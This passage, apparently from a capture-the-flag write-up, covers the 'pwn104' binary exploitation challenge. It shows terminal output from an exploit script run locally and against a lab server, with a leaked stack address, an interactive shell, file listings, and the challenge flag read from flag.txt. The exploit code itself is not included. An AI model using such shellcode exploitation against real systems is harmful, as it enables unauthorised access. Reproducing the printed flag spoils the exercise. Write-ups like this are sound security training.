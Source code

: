 Running it locally works 

```
└─$ python exploit.py
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Starting local process './pwn104.pwn104': pid 73870
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at
Leaked input stack address 0x7fff8d608d70
[*] Switching to interactive mode
$ ls -al
total 28
drwxr-xr-x 2 mark mark  4096 Feb 14 22:28 .
drwxr-xr-x 6 mark mark  4096 Feb 14 21:11 ..
-rw-r--r-- 1 mark mark  1285 Feb 14 22:26 exploit.py
-rwxr-xr-x 1 mark mark 16296 Feb 14 21:11 pwn104.pwn104
$
```

Now i'll run it on the remote server

```
└─$ python exploit.py REMOTE 10.10.46.106 9004        
[+] Opening connection to 10.10.46.106 on port 9004: Done
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at
Leaked input stack address 0x7fffb47c6a90
[*] Switching to interactive mode
$ LS -AL
$ ls -al
total 44
drwx------  2 pwn104 pwn104  4096 Feb  8  2022 .
drwxr-xr-x 12 root   root    4096 Feb  8  2022 ..
lrwxrwxrwx  1 pwn104 pwn104     9 Feb  8  2022 .bash_history -> /dev/null
-rw-r--r--  1 pwn104 pwn104   220 Apr  4  2018 .bash_logout
-rw-r--r--  1 pwn104 pwn104  3771 Apr  4  2018 .bashrc
-rw-r--r--  1 pwn104 pwn104   807 Apr  4  2018 .profile
-rwxrwxrwx  1 pwn104 pwn104    30 Jan 28  2022 flag.txt
-rwxrwxrwx  1 pwn104 pwn104 16296 Jan 28  2022 pwn104
-rwxrwxrwx  1 pwn104 pwn104   832 Jan 28  2022 pwn104.c
$ cat flag.txt
THM{0h_n0o0o0o_h0w_Y0u_Won??}
$
```
